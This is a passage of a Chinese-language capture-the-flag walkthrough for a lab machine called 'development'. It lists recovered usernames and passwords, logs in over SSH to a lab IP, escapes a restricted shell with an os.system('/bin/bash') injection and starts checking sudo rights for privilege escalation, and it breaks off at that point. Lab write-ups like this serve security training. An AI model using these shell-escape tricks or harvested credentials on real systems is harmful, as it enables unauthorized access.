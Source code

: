 ```apl
admin 		
intern		12345678900987654321
patrick		P@ssw0rd25
qiu			qiu
```

尝试ssh登录。

```bash
ssh intern@192.168.37.131
```

出现了以下报错：

```text
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the ED25519 key sent by the remote host is
SHA256:gCZ6+ixH4Qe19wr8iDYUTaofDOf16k4ccCQ68NZ08yM.
Please contact your system administrator.
Add correct host key in /home/kali/.ssh/known_hosts to get rid of this message.
Offending ECDSA key in /home/kali/.ssh/known_hosts:33
  remove with:
  ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '192.168.37.131'
Host key for 192.168.37.131 has changed and you have requested strict checking.
Host key verification failed.
```

是因为之前有个靶场域名和这个一模一样，所以存下来了，使用命令`ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '192.168.37.131'`删掉就行了。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024744.png" alt="image-20240323201323393" style="zoom: 50%;" />

## 提权

### 扩展一下

虽然连接上了，但是是一个受限用户：

```bash
intern:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

尝试切换，看看能不能扩展一下。

```bash
intern:~$ echo os.system("/bin/bash")
intern@development:~$ whoami;id
intern
uid=1002(intern) gid=1006(intern) groups=1006(intern)
intern@development:~$ ls
access  local.txt  work.txt
intern@development:~$ cat local.txt
Congratulations on obtaining a user shell. :)
intern@development:~$ cat work.txt
1.      Tell Patrick that shoutbox is not working. We need to revert to the old method to update David about shoutbox. For new, we will use the old director's landing page.

2.      Patrick's start of the third year in this company!

3.      Attend the meeting to discuss if password policy should be relooked at.
intern@development:~$ sudo -l
```